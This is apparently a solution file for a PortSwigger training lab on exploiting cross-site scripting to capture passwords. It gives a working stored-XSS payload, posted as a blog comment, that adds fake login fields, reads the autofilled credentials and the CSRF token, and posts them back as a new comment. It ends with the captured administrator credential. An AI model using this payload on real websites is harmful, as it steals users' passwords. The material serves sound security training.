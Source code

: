 # Lab: Exploiting cross-site scripting to capture passwords
# https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords

```bash
# Comment this into post with post id 3.

<input type="text" name="username">
<input type="password" name="password" onchange="hax()">

<script>
function hax(){
var token = document.getElementsByName('csrf')[0].value;
var username = document.getElementsByName('username')[0].value;
var password = document.getElementsByName('password')[0].value;

var data = new FormData();

data.append('csrf', token);
data.append('postId', 3);
data.append('comment', `${username}:${password}`);
data.append('name', 'victim');
data.append('email', 'a@gmail.com');
data.append('website', 'http://www.abc.abca');

fetch('/post/comment', {
 method: 'POST',
 mode: 'no-cors',
 body: data
});
}
</script>

```
```bash
Response: administrator:p02roajt6xijszf619wh

# Go to my account and log in to complete the lab.
```

